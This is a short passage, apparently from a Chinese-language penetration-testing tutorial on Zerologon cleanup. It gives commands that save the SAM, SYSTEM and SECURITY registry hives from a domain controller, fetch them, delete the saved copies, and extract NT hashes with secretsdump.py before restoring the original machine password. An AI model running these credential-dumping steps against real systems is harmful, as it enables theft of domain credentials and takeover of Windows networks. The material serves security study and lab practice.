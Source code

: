 ```bash
# 恢复原HASH，执行以下命令，获取SAM中原来的HASH
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f sam.save
del /f security.save
exit

# 解析HASH，执行如下命令，利用secretsdump.py解析保存在本地的NTHASH
python secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

# 恢复HASH
python reinstall_original_pw.py DC_NETBIOS_NAME DC_IP_ADDR <ORI_HASH>

# 验证是否恢复
python secretsdump.py DOMAIN/DC_NETBIOS_NAME\$@DC_IP_ADDR -no-pass
```

![](./images/25.png)
